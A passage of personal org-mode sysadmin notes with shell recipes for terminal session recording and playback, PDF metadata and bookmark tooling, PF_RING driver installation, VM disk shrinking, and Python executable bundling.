         # Using zsh/bash pipes
         # script - record
         script -q -t >(zstd -q -T0 --ultra --long --adapt=min=1,max=22 -o timings.zst) >(zstd -q -T0 --ultra --long --adapt=min=1,max=22 -o rawout.zst)

         # script - playback
         scriptreplay -t <(zstdcat timings.zst) <(zstdcat rawout.zst)

         # ttyrec - record
         ttyrec -f >(zstd -q -T0 --ultra --long --adapt=min=1,max=22 -o record.zst)

         # ipbt - playback
         ipbt -u -U -A -P -T <(zstdcat record.zst)
       #+end_src
**** Clean VT100/ANSI escapes
     - Use ~sed~ [[https://stackoverflow.com/a/51141872][magic-regex]] - still needs to trim some vterm/tmux/screen escapes
     - Use [[https://github.com/pixelb/scripts/blob/master/scripts/ansi2html.sh][ansi2html.sh]] ([[https://github.com/pixelb/scripts/raw/master/scripts/ansi2html.sh][raw]]):
       #+begin_src sh
         # TODO - sed magic needed to further
         # trim  + vterm/tmux/screen escape
         zstdcat rawout.zst | ansi2html.sh | w3m -T text/html -dump | less -r
       #+end_src
*** Script
    - Record:
      #+begin_src sh
        # Use -c for running a command
        # Use -a for appending to files
        script -q -t timings.ty rawout.ty
      #+end_src
    - Playback:
      #+begin_src sh
        # No rewind support
        scriptreplay -t timings.ty rawout.ty

        # Join inactivity on same-frame - zsh
        scriptreplay -t <(awk '{ printf "%f %d\n", (($1 - last) > 1) ? 1 : $1, $2 }' timings.ty) rawout.ty
      #+end_src
    - Run the recorded commands:
      #+begin_src sh
        # The recorded cmds will be executed
        scriptlive -t timings.ty rawout.ty
      #+end_src
*** TTYrec
    - Use [[https://github.com/ovh/ovh-ttyrec][ovh-ttyrec]] (or [[http://0xcc.net/ttyrec/][ttyrec]] + [[https://sources.debian.org/patches/ttyrec][patches]])
    - Record (using ~ovh-ttyrec~ syntax):
      #+begin_src sh
        ttyrec -f record.trec

        # Record just a command
        ttyrec -f record.trec -- <cmd>
      #+end_src
    - Playback:
      #+begin_src sh
        # No rewind support
        ttyplay record.trec
      #+end_src
    - Dump the recording in raw format:
      #+begin_src sh
        ttyplay -n record.trec > rawout.ty
      #+end_src
    - Repair corrupted ttyrec for IPBT:
      #+begin_src sh
        # Press + to duplicate the speed
        ttyrec -f <fixed> -- ttyplay <broken>
        # Play it in ipbt with <num>X
      #+end_src
*** TTYrec - Perl
    - Obtain it from [[https://metacpan.org/release/App-Ttyrec][App::Ttyrec]]
*** Termrec
    - [[https://github.com/kilobyte/termrec][termrec]] - Records in ttyrec format with extra information for better playback - untested
*** IPBT - Replayer
    - [[https://git.tartarus.org/?p=simon/ipbt.git][Git]] - [[https://www.chiark.greenend.org.uk/~sgtatham/ipbt/ipbt.html][Manual]]
    - Some ~ncurses~ tools [[https://www.chiark.greenend.org.uk/~sgtatham/ipbt/ipbt.html#BUGS][won't be displayed]]
    - Replay TTYrec:
      #+begin_src sh
        # --utf8-linedraw - Fix line drawings
        ipbt -u -U -A -T record.trec
        # -f <frame> -> Start at <frame>

        # Raw recordings
        ipbt -u -U -A -R rawout.ty

        # o    -> Frame info
        # l    -> Speedup idle periods
        # s/p  -> Pause/Play
        # SPC  -> Next Frame     - Number mod
        # b    -> Previous Frame - Number mod
        # <n>g -> Jump to <n>  frame
        # G    -> Jump to last frame
        # <n>x -> Speedup  playback <n> times
        # <n>X -> Slowdown playback <n> times
        # /    -> Search forward
        # ?    -> Search backward
        # n    -> Repeat search
      #+end_src
*** asciinema
    - [[https://github.com/asciinema/asciinema][asciinema]] - Creates JSON recordings
    - Only useful if the purpose is to upload/share the recording
    - Check [[https://github.com/krpors/ttyasc][ttyrec to asciinema]] converters
    - [[https://github.com/cirocosta/asciinema-edit][Post-processing]] - [[https://mullikine.github.io/posts/converting-between-ttyrec-formats/][format conversion]]
*** TODO Conversion - ttyrec <> script
    - The following trick can be used but not time-efficient:
      #+begin_src sh
        ttyrec -f record.trec -- scriptreplay -t timings.ty rawout.ty
      #+end_src
** Screenshot Full Command Output
   - *Before* running the command start ~script~:
     #+begin_src sh
       # DO NOT add the -t <tm> flag
       LC_ALL=C script -q rawout.ty
       # -c <cmd> - Run just the command
       # ^ The prompt won't be captured

       # Or use the following for compression
       script -q >(zstd -q -T0 --ultra --long --adapt=min=1,max=22 -o rawout.zst)
     #+end_src
   - Run the command *and* exit ~script~
   - Use [[https://github.com/pixelb/scripts/raw/master/scripts/ansi2html.sh][ansi2html]] to create an HTML:
     #+begin_src sh
       # The xterm palette is the clearest
       < rawout.ty sh ansi2html.sh --bg=dark --palette=xterm > cmd.html

       # Or if compression was used
       zstdcat rawout.zst | sh ansi2html.sh --bg=dark --palette=xterm > cmd.html
     #+end_src
   - Remove the ~script~ tags from the HTML:
     #+begin_src sh
       # TODO See if still relevant
       # Keeping the command prompt
       sed -i '/Script started/{N;s/.*\n//p;N;g;:a;g;N;/Script done/!{s,^\n\(</span>\)\+,,;P;s,[^\n]*\n,,;ba};d}' cmd.html
       # Works for multiple prompts
       sed -i ':a;/\(^\|\n\)<span[^\n]*<[^<]\+>\s\?[%#]\s\+$\|\n$/{N;ba};s/.*\n\+//;/^Script \(started\|done\)/d' cmd.html

       # TODO See if still relevant
       # Keeping the command, not the prompt
       sed -i '/Script started/{N;s/.*\n<span.*\(<[^<]\+>\) \?%/\1$/p;g;N;:a;N;/Script done/!{s,^\n\(</span>\)\+,,;P;s,[^\n]*\n,,;ba};d}' cmd.html
       # Works for multiple prompts
       sed -i ':a;/\(^\|\n\)<span[^\n]*<[^<]\+>\s\?[%#]\s[^<\n]\+$\|\n\s*$/{N;ba};/Script \(started\|done\)/d;s/^\(<span.*<[^<]\+>\s\?[%#]\s.*[^\n]\+\)\?\(\n*\)<span.*\(<[^<]\+>\)\s\?\([%#]\)\s*/\2\3\4 /' cmd.html
       # ^ Assuming % or # as prompt separator

       # TODO See if still relevant
       # Only the command's output
       sed -i '/Script started/{N;g;N;:a;g;N;/Script done/!{s,^\n\(</span>\)\+,,;P;s,[^\n]*\n,,;ba};d}' cmd.html
       # Works for multiple prompts
       sed -i ':a;/\(^\|\n\)<span[^\n]*<[^<]\+>\s\?[%#]\s[^<\n]\+$\|\n\s*$/{N;ba};/^\(<span[^\n]*<[^<]\+>\s\?[%#]\s.\+$\|Script \(started\|done\)\)/d' cmd.html
     #+end_src
   - Use [[https://github.com/sindresorhus/capture-website-cli][capture-website]] to generate the img:
     #+begin_src sh
       # Auto-crop full-page with --height=1
       capture-website --height=1 --full-page --overwrite --output=cmd.png cmd.html
       # 'Unable to capture screenshot' means
       # that the height is above 10000000px
       # This is a Chrome limitation

       # Use --inset to workaround the issue
       capture-website --height=30000 --inset=20000,0,0,0 --overwrite cmd.html
       # ^ 10000 pixels from 20000y-px
       # TODO Join all the images for full-out

       # TODO Crop Script tags with --inset
     #+end_src
** FFplay Scale Realtime Input
   - Assuming input signal of 1920x1080 and scaling to 3840x2160 (auto):
     #+begin_src sh
       vblank_mode=0 ffplay -video_size 1920x1080 -fast -an -infbuf -sync audio -framedrop -drp 0 -vf 'scale=3840:-1' -loglevel -8 -fs /dev/video1
     #+end_src
** NTop PF_RING (for Masscan)
*** Requirements
    - The [[https://www.ntop.org/guides/pf_ring/zc.html#supported-cards][Zero Copy drivers]] for the adapters only replace those that use PCIe ([[https://github.com/ntop/PF_RING/tree/dev/drivers/intel][supported]]), so first check if your ethernet adapter uses PCI-express with ~lspci | grep -i ethernet~, then check that the module currently used by the kernel is the same as the ones from the supported cards, ie, an Intel 8254x should be using ~e1000e~: ~lsmod | grep e1000e~
    - Note that ~e1000~ and ~e1000e~ are not the same, make sure that the kernel is currently using ~e1000e~ (or can be instructed to use it) before proceeding
*** Pre-made packages
    - Some Debian distros have pkgs pre-made
*** Installing from source
**** Kali Linux
***** Dependencies:
      - ~linux-headers~
      - ~dkms~
      - ~dh-make~
      - ~bison~ - Zero Copy
      - ~libjson-c-dev~ - Flow Table
***** Good to have
      - Debian package creator: ~checkinstall~
***** Installation
****** PF_RING Flow Table
       - [[https://www.ntop.org/guides/pf_ring/ft.html][Documentation]]
       - Clone the sources:
         #+begin_src sh
           git clone https://github.com/ntop/nDPI
         #+end_src
       - Install the library:
         #+begin_src sh
           cd nDPI

           ./autogen.sh

           # Add the version number
           checkinstall
         #+end_src
****** PF_RING Zero Copy
       - [[https://www.ntop.org/guides/pf_ring/zc.html][Documentation]]
       - Clone the sources:
         #+begin_src sh
           git clone https://github.com/ntop/PF_RING
         #+end_src
       - Install the kernel module:
         #+begin_src sh
           cd PF_RING/kernel

           ./configure

           make -f Makefile.dkms deb
         #+end_src
       - Install the ZC driver module:
         #+begin_src sh
           cd ../drivers/intel

           ./configure

           make -f Makefile.dkms.<driver> deb
         #+end_src
       - Install the libpfring library:
         #+begin_src sh
           cd ../userland/lib

           ./configure --enable-ndpi

           # Add the version number
           # and ndpi as dependency
           checkinstall
         #+end_src
       - Install the patched libpcap:
         #+begin_src sh
           cd ../libpcap

           # Add --with-{dag,septel,...}
           # if you have any of those cards
           ./configure

           # Add the version number
           # and libpfring as dependency
           checkinstall
         #+end_src
       - Install patched tcpdump:
         #+begin_src sh
           cd ../tcpdump

           ./configure

           # Add the version number
           # and libpfring as dependency
           checkinstall
         #+end_src
       - Install Wireshark [[https://www.wireshark.org/docs/wsug_html_chunked/ChPluginFolders.html][plugins]]:
         #+begin_src sh
           cd ../wireshark/extcap

           # You make have to return to the
           # folders where dkms was used and
           # issue a make for this to work
           make

           # Enable select the PF_RING iface
           cp ntopdump /usr/lib/<linux-platform>/wireshark/extcap/

           cd ../plugins

           # Enable the PF_RING proto filter
           cp PFRingFlow.lua /usr/lib/<linux-platform>/wireshark/plugins/
           # Or ~/.local/lib/wireshark/plugins/
           # Or ~/.wireshark/plugins/
         #+end_src
       - Install specific card modules:
         #+begin_src sh
           cd ../../modules/<card>

           ./configure

           # Add the version number
           checkinstall
         #+end_src
       - Install tools and services:
         #+begin_src sh
           cd ../../../

           # Command line tools
           cp package/usr/bin/* /usr/bin/

           cp tools/n2if /usr/bin/

           # Systemd services
           cp package/etc/systemd/system/* /etc/systemd/system/
         #+end_src
***** Post-Installation Configuration
      - [[https://www.ntop.org/guides/pf_ring/hugepages.html][Enable Hugepages]]
      - Set the correct [[http://www.ntop.org/guides/pf_ring/rss.html#rss-receive-side-scaling][RSS]] values
      - [[https://www.ntop.org/guides/pf_ring/get_started/packages_installation.html#manual-configuration][Basic Configuration]]:
        #+begin_src sh
          # Folder skeleton
          mkdir -p /etc/pf_ring/zc/<driver>

          # Set Hugepages values
          echo "node=0 hugepagenumber=1024" > /etc/pf_ring/hugepages.conf

          # Enable RSS
          echo "RSS=0,0,0,0" > /etc/pf_ring/zc/<driver>/<driver>.conf

          # Make the driver usable
          touch /etc/pf_ring/zc/<driver>/<driver>.start

          # Set the type of usage per iface
          cat > /etc/pf_ring/interfaces.conf << EOF
          MANAGEMENT_INTERFACES="eth0"
          CAPTURE_INTERFACES="eth1 eth2"
          EOF

          # Or force to load the ZC driver
          touch /etc/pf_ring/forcestart

          # You may need to reset the iface
          echo "ifconfig eth0 192.168.1.1" > /etc/pf_ring/post
          chmod +x /etc/pf_ring/post

          # Enable and start the service
          systemctl enable --now pf_ring

          # Check the driver in use
          pf_ringcfg --list-interfaces

          # Also check its Polling Mode:
          cat /proc/net/pf_ring/dev/eth0/info
        #+end_src
      - [[https://www.ntop.org/guides/pf_ring/ft.html#ids-acceleration][IDS Acceleration Example]]
** VMWare VM Maintenance
*** Defrag
    - From inside the client machine:
      #+begin_src sh
        e4defrag /
      #+end_src
*** Shrink Disk
    - Repeat the following twice, starting and powering off the machine (and waiting 10 minutes) in between to allow the VMplayer disk allocator to do its magic
    - From inside the client machine:
      #+begin_src sh
        vmware-toolbox-cmd disk wipe / ; cat /dev/zero > /wipefile; sync; rm /wipefile; sync ; vmware-toolbox-cmd disk shrinkonly /
      #+end_src
    - Power off the client
    - From the command line ([[https://www.howtoforge.com/how-to-shrink-vmware-virtual-disk-files-vmdk][ref]]):
      #+begin_src sh
        cd <folder-with-vmdk>

        ls

        # Defrag
        vmware-vdiskmanager -d <main-vmdk>

        # Shrink
        vmware-vdiskmanager -k <main-vmdk>
      #+end_src
    - Alternatively from the VMplayer UI:
      - Select the Hard Drive of the client in the VMplayer dashboard > VM Settings
      - Select Defrag disk (doesn't seem to work)
      - Select Compact disk
** VirtualBox VM
*** Shrink
    - Defrag the guest:
      #+begin_src sh
        # ext4 filesystem
        e4defrag /
      #+end_src
    - Write a /wipefile to zero all the data:
      #+begin_src sh
        cat /dev/zero > /wipefile; sync; rm /wipefile; sync
      #+end_src
    - Power off the guest
    - From the host:
      #+begin_src sh
        # List all the disks
        VBoxManage list hdds

        # Compact the disk
        VBoxManage modifymedium disk "<UUID>" --compact

        # Auto-compact all disks
        VBoxManage list hdds 2>&1 | awk '/^UUID/{print $2}' | xargs -i VBoxManage modifymedium disk "{}" --compact
      #+end_src
*** Internal Network
    - Used to connect different VMs:
      #+begin_src sh
        VBoxManage dhcpserver add --netname intlab --ip 10.10.10.1 --netmask 255.255.255.0 --lowerip 10.10.10.2 --upperip 10.10.10.210 --enable
      #+end_src
    - Create a new /Internal Network/ adapter and write the name (if not listed): ~intlab~
    - It might be needed to start the VMs in graphical mode to be able to manually connect to multiple ethernet adapters
** Pip Cache
   - Purge ~pip~ cache and don't use it anymore
     #+begin_src sh
       # Purge all cache
       pip cache purge

       # Don't use cache
       pip config set global.cache-dir false
     #+end_src
** Metadata
*** exiftool
    - [[https://github.com/exiftool/exiftool][Site]] - Read/Write metadata from files
      #+begin_src sh
        exiftool <file>
      #+end_src
    - Extract interesting meta-fields from PDFs
      #+begin_src sh
        # TODO - Try to recover stripped metadata
        for f in *.pdf; do exiftool "$f" | awk -vf="\n${f//\\/\\\\}\n" -vd="${f//?/-}" 'BEGIN{print d f d}END{print""}{s=$0;gsub("^[^:]+|[][,)( :.]","",s)}s&&/^(MSIP[^:]*)*(Author|Title|Keywords|Creator|Producer|Artist|Credit|Special|By[- ]?Line|(Copy)?[Rr]ights?|Source|For|Name|Owner|Instructions|Originating ?Program|Keywords|Subject|Headline|(Image ?)?Description|City|Country|Company|Comment|Create ?Date|Metadata ?Date|Modify ?Date|Set ?Date|PDF ?Version|GTS ?PDFX ?Version|AI ?Creator ?Version|History ?Parameters|(History ?)?Software ?Agent|Primary ?Platform|Device ?Manufacturer|XMP ?Toolkit|Slices ?Group ?Name|GPS|Make|Camera ?Model ?Name|(Writer|Reader) ?Name|Image ?Description|Sensitivity|Directory|Application|(Manifest ?Reference|Ingredients) ?File ?Path|Profile ?Copyright|Language|Encryption|User ?Access)/&&!x[s]++'; done | tee allpdfs.meta | less
        # Use pdftk to easily identify when a PDF
        # has Author Passwords instead of looking
        # at the Encryption & User Access header

        # Mod to hide the headings if no metadata
        # for f in *.png *.jpg; do [...] |
        # awk [...] 'END{if(p)print""}{s=$0[...]
        #  }&&!x[s]++{if(!p++)print d f d;print}';
        # done | [...]
      #+end_src
** PDF
*** Extract Text
**** pdftotext (poppler)
     - [[https://github.com/freedesktop/poppler][Site]] - PDF rendering & extractor
       #+begin_src sh
         # Extract to stdout
         pdftotext <file.pdf> -
         # By default <file.txt> is created

         # Include metadata:
         pdftotext -htmlmeta <file.pdf> - | sed -n 's/^<meta .*/&\n/p;/^<pre>/,/^<\/pre>/{//!p}'

         # Analyze all PDFs in current dir
         for f in *.pdf; do echo "$f" | sed "h;s/./-/gp;H;x"; pdftotext -htmlmeta "$f" - | sed -n 's/<meta .*/&\n/p;/<pre>/,/<\/pre>/{//!p}'; echo; done | less
       #+end_src
*** TOC / Bookmarks
**** Tabula
     - [[https://github.com/tabulapdf/tabula-java][Site]] - PDF data extractor WebUI-based:
       #+begin_src sh
         # Start web server at 8080
         tabula

         # Use a different port + options
         tabula 9090 <tabula-opts>
       #+end_src
     - Open the browser at localhost:<port>
     - Export as ~JSON (data)~ to use with ~jq~
**** pdftk
     - [[https://gitlab.com/pdftk-java/pdftk][Site]] - PDF data manipulator
     - Export Bookmarks + Metadata:
       #+begin_src sh
         pdftk <file.pdf> dump_data output <meta-file>
       #+end_src
     - Import Bookmarks + Metadata:
       #+begin_src sh
         pdftk <file.pdf> update_info <meta-file> output <updated.pdf>
       #+end_src
**** pdfminer
***** Information
      - [[https://github.com/pdfminer/pdfminer.six][Site]] - PDF data extractor/analyzer
***** dumppdf.py
      - Extract the internal PDF structure:
        #+begin_src sh
          # Only TOC/Bookmark table in xml
          dumppdf.py -T <file.pdf> -o TOC.xml
        #+end_src
**** Ghostscript
     - [[https://www.ghostscript.com/][Site]] - PostScript + PDF interpreter:
       #+begin_src sh
         # Try compress PDF better
         gs -sDEVICE=pdfwrite -dCompatibilityLevel=1.4 -dPDFSETTINGS=/prepress -dNOPAUSE -dQUIET -dBATCH -sOutputFile=<output.pdf> <input.pdf>
       #+end_src
**** Import + Fix Bookmarks other PDF
     - Use when there are two similar PDFs:
       - But only one with TOC/Bookmark table
       - Which wants to be added to the other
     - Extract metadata of both PDFs:
       #+begin_src sh
         pdftk <file1.pdf> dump_data output <meta-file1>

         pdftk <file2.pdf> dump_data output <meta-file2>
       #+end_src
     - Manually add the desired metadata from ~<meta-file1>~ to ~<meta-file2>~
       - All ~Bookmark*~ data, for example
     - Using ~tabula~, select the TOC from the PDF pages *without* the leading section numbers:
       - *Do* select ~"Section1 34"~ (page nº 34)
       - *Don't* select ~"1. Section1 34"~
     - Export as ~JSON (data)~, file <file.json>
     - Annotate the offset number to the first page in the TOC:
       - If ~Section1~ is in TOC page 1, but actual PDF page is 22, offset = 21
     - Fix bookmark pages by using the TOC and offset:
       #+begin_src sh
         offset=21
         jq -r '.. | .text?' <file.json> | sed '/^null$/{d;n};/[0-9]$/!{N;s/\n//};s/\(\. \.\? \?\)\+//' | while read l; do num=$(grep -o '[0-9]\{1,3\}$' <<< "$l"); sec=${l%${num}}; sed -i "/BookmarkTitle:.*${sec//\//\\/}$/{n;n;s/[0-9]\+$/$((num + $offset))/}" <meta-file2>; done
       #+end_src
     - Fix subsections pages not showing in TOC (subsections with more than 2 levels) by calculating offset:
       #+begin_src sh
         # Not 100% reliable offsets
         grep -B 3 -A 1 'BookmarkLevel: [^12]$' <meta-file1> | awk '/^BookmarkPageNumber:/{if(bt!=""){n=$2 - pn; print bt, n < 0 ? n % 2 ? 0 : 1 : n; bt=""};pn=$2} /^BookmarkTitle:/{$1="";bt=substr($0,2)}' | while read l; do t=${l% [0-9]}; n=${l#${t} }; gawk -i inplace "/^BookmarkPageNumber/{pn=\$2} /^BookmarkTitle:.*${t//\//\\/}$/{print; getline; print; getline; \$2=pn + $n} {print}" <meta-file2>; done
       #+end_src
     - Add new metadata to updated file2.pdf:
       #+begin_src sh
         pdftk <file2.pdf> update_info <meta-file2> output <updated.pdf>
       #+end_src

* Compilers
** Python
*** Notes
    - Try downloading the dependencies with ~pipenv~ or ~venv~ to avoid conflicts
*** Nuitka
    - [[https://github.com/Nuitka/Nuitka][Nuitka]] transforms the intermediary Python code to C and compiles it with a C compiler (which will download):
      #+begin_src sh
        # Using python -m is preferred to
        # simply calling nuitka
        # You may try these as a last resort:
        # --follow-stdlib
        # --force-dll-dependency-cache-update
        #
        # Note that follow-stdlib may require
        # including all modules in the .py
        #  --include-module=site
        #
        # You may force include pkg/modules:
        #  --include-plugin-directory=
        #
        # You may use a different compiler:
        #  --mingw64 | --clang | --msvc=<ver>
        #
        # You may try linking optimizations:
        #  --lto
        #
        # You may cross arch compile:
        #  --python-arch=
        #
        # In Windows you may specify another
        # dir for extraction (like C:) with
        #  --windows-onefile-tempdir-spec=
        #
        # In Windows you may force the stdout
        # and stderr to specific files with
        #  --windows-force-stdout-spec=
        #  --windows-force-stderr-spec=
        # > Don't use UPX with nuitka EXEs
        python -m nuitka --output-dir=nuitka-build --assume-yes-for-downloads --follow-imports --standalone --onefile --remove-output --windows-onefile-tempdir --include-data-file=<additional-dir>/=<additional-dir>/ <main-py-file>
      #+end_src
*** PyInstaller
    - [[https://github.com/pyinstaller/pyinstaller][PyInstaller]] bundles the current python interpreter and the package into an executable:
      #+begin_src sh
        # Try using UPX: --upx-dir
        # Try without unicode: -a
        # Force import: --hidden-import <pkg>
        # Stricter:
        #   --win-no-prefer-redirects
        #   --win-private-assemblies
        python -m pyinstaller -c -F --clean <main-py-file>
      #+end_src
*** cx_Freeze
    - [[https://github.com/marcelotduarte/cx_Freeze][cx_Freeze]] is another alternative but requires Microsoft Visual C++/SDK to create the bundles
